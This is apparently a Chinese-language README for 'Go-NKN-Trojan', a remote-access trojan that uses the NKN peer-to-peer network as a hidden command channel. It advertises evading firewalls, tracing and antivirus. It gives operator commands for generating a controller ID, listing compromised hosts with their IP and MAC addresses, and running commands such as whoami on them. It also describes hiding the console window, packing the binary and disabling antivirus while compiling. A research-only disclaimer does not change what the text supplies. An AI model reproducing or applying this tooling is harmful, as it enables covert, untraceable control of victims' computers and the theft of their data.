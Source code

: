 # Go-NKN-Trojan

一款由区块链的核心网络技术p2p实现的去中心化去C2的基础远控木马框架

**目前该项目只开源了命令执行功能为测试可行性，其余功能可自行追加。**

**本项目是在旧版goland编写，旧版goland+Go1.18会报import错误，无视即可正常编译**

## 特点

**解决木马C2服务的痛点，方法不同于域前置、白域名等手段，通信采用p2p作为通信基础架构，调用区块链NKN-SDK实现p2p通信，取消传统C2模式，控制端无需公网IP减少成本并且可以有效防止被溯源,并且可绕过云上流量防火墙管制。**

**木马通过对主机一部分硬件设备信息进行收集整合生成该设备唯一指定ID，即使主机重装操作系统也不改变控制ID，通过此ID目标主机持续对控制端进行心跳式回连保证控制端不丢失目标主机，同时防止目标主机出现意外状况再次上线后ID变化。**

**最近更新:目前会被火绒误报为挖矿病毒，通过微步沙箱检测到的外连IP，虽然没有控制端真实IP，但是程序会连接NKN主网域名。原因初步判断为检测到程序连接NKN主网域名，与挖矿病毒初步行为相似，被误报为挖矿进程**

![image-20220808085321638](https://cdn.jsdelivr.net/gh/Saber-CC/img@master/data/image-20220808085321638.png)

**免杀性能优秀**

![image-20220528183550653](https://cdn.jsdelivr.net/gh/Saber-CC/img@master/data/image-20220528183550653.png)

![image-20220528183618747](https://cdn.jsdelivr.net/gh/Saber-CC/img@master/data/image-20220528183618747.png)

## 免责声明

```
1.依据《刑法修正案（七）》第9条增订的《刑法》第285条第3款的规定，犯提供非法侵入或者控制计算机信息系罪的，处3年以下有期徒刑或者拘役，并处或者单处罚金；情节特别严重的，处3年以上7年以下有期徒刑，并处罚金。
2.第二百八十五条第二款 违反国家规定，侵入前款规定以外的计算机信息系统或者采用其他技术手段，获取该计算机信息系统中存储、处理或者传输的数据，或者对该计算机信息系统实施非法控制，情节严重的，处三年以下有期徒刑或者拘役，并处或者单处罚金；情节特别严重的，处三年以上七年以下有期徒刑，并处罚金。
3.刑法第二百五十三条之一：“国家机关或者金融、电信、交通、教育、医疗等单位的工作人员，违反国家规定，将本单位在履行职责或者提供服务过程中获得的公民个人信息，出售或者非法提供给他人，情节严重的，处三年以下有期徒刑或者拘役，并处或者单处罚金。情节特别严重的，处三年以上七年以下有期徒刑，并处罚金。
```

**由于传播、利用开源信息而造成的任何直接或间接的后果及损失，均由使用者本人负责，作者不承担任何责任。**

**开源仅作为安全研究之用！切勿用作实战用途！仅限于本地复现！**

## 使用

### server

**首先需要随机生成一个64位seed，调用下列命令即可。该种子将作为的控制者的唯一标识ID，切勿丢失**

```
server.exe -g new
```

**将64位seed加载读入程序中，控制端将生成该seed的唯一控制ID，控制ID格式为monitor.xxxx....**

```
server.exe -g e6178488d64cf94703f68c57cbdd7eb634a773ba119c7646a4394bac993e47f3
```

展示结果如下

```
your controlid = monitor.8146bae11e3f976c105f7cace9a96bed0dfdb0bdec2f1a8313e46d93726a77c7
```

**启动监听后，监听中若有目标机回连将会显示目标ID，该ID固定格式为xxxx.xxxx....，并且会同时会显示目标机公网IP、内网IP、MAC地址**。展示结果如下

```
target host connect, ID: 09d3.31642085613f0c6e34dff8b9ffc5d330746cd38ddb61fa2cd4884c5f9e634a0b ,target IP address : xxx.xxx.xxx.xx|xxx.xxx.xxx.xxx|xx:xx:xx:xx:xx:xx
```

**对目标机执行命令格式为：目标机ID 命令**

```
09d3.31642085613f0c6e34dff8b9ffc5d330746cd38ddb61fa2cd4884c5f9e634a0b whoami
```

### client

**将server中生成的控制端ID写入Client Code的controlid变量，编译即可。**

## 注意事项

**由于调用NKN-SDK进行编译，所以体积较大，可以使用压缩壳缩小体积**

可能会被一些安全产品误报为挖矿病毒，火绒会对区块链相关的编译工具报毒，编译时需关闭火绒或设置信任区。

Windows、Linux皆可成功编译执行，但若Windows平台若需要取消程序弹出CMD框，需要修改command.go配置，WindowsCommand所属Exec()函数中SysProcAttr追加HideWindow: true参数，例如

```
&syscall.SysProcAttr{HideWindow: true}
```

编译参数需要追加参数

```
-ldflags "-s -w -H=windowsgui"
```

